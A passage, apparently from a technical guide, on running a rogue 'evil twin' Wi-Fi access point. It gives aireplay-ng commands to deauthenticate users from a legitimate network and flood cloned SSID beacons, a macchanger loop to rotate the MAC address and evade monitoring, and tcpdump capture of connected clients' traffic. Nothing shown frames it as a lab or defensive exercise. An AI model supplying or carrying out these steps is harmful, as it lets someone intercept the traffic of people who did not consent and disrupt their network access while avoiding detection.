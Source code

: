 **Purpose**:  
- Matching signal strength ensures the rogue AP is not easily detected as weaker or stronger than the legitimate network.  
- Channel hopping evades static network scanners by dynamically switching frequencies.

---

### **5. Forcing Client Connections**  
To increase the likelihood of users connecting to the rogue AP, deauthentication attacks are employed to disconnect them from the legitimate network.  

**Command Example**:  
```bash
aireplay-ng -0 0 -a 00:11:22:33:44:55 wlan0mon
```  
*Replace `00:11:22:33:44:55` with the target BSSID and `wlan0mon` with the monitor mode interface.*  

**Beacon Flooding (Optional)**:  
```bash
aireplay-ng --beacon wlan0mon -h 00:11:22:33:44:55 -e Free_Coffee_SSID
```  
*Floods the airwaves with cloned SSID beacons to overwhelm clients.*

---

### **6. Automating MAC Rotation for Evasion**  
To avoid detection by network monitoring tools, the rogue AP’s MAC address can be rotated periodically.  

**Script Example**:  
```bash
while true; do  
  macchanger -r wlan0  
  sleep 180  # Rotate every 3 minutes.  
done  
```  

**Purpose**:  
- Prevents the rogue AP from being flagged by systems that track static MAC addresses.  

---

### **7. Verification and Testing**  
After setup, the rogue AP must be verified to ensure it functions as intended.  

**Commands**:  
- **Scan for the Rogue AP**:  
  ```bash
  iwlist wlan0 scan
  ```  
- **Test Client Connections**:  
  ```bash
  tcpdump -i wlan0 -w captured.pcap  # Capture traffic for analysis.
  ```  

**Expected Outcome**:  
- The rogue AP should appear identical to the legitimate network in terms of SSID, BSSID, and signal strength.  
- Clients should connect to the rogue AP after deauthentication or beacon flooding.  

---